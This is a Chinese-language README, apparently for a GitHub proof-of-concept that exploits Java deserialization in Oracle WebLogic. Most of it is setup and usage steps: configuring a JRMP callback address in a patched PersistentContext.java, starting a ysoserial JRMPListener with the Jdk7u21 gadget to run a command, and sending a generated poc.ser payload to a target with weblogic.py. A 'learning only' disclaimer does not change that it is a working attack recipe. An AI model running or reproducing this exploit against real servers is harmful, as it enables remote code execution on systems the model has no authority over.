



## 声明

仅用于学习交流使用，其他用途后果自负。

## 说明

已经将相关jar文件都导入到了项目中，并且利用方式采用yso的JRMP，学习调试时候可以修改利用方式。

首先需要将weblogic下的 **SerializedSystemIni.dat** 文件放置到 **security** 文件夹下。

然后需要将yso重命名为 **ysoserial.jar** ，并且导入到 **lib** 目录下。



其次 **weblogic/wsee/jaxws/persistence/PersistentContext.java** 中的 **getObject** 的IP地址和端口。

```
        try {
            var3.writeObject(Poc.getObject("127.0.0.1:8000"));
        } catch (Exception e) {
            e.printStackTrace();
        }
```

最后远程通过JRMP监听，利用7u21命令执行。

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8000 Jdk7u21 "calc.exe"
```

使用方法，运行Poc.java生成poc.ser序列化文件，通过

```
python weblogic.py ip port poc.ser
```





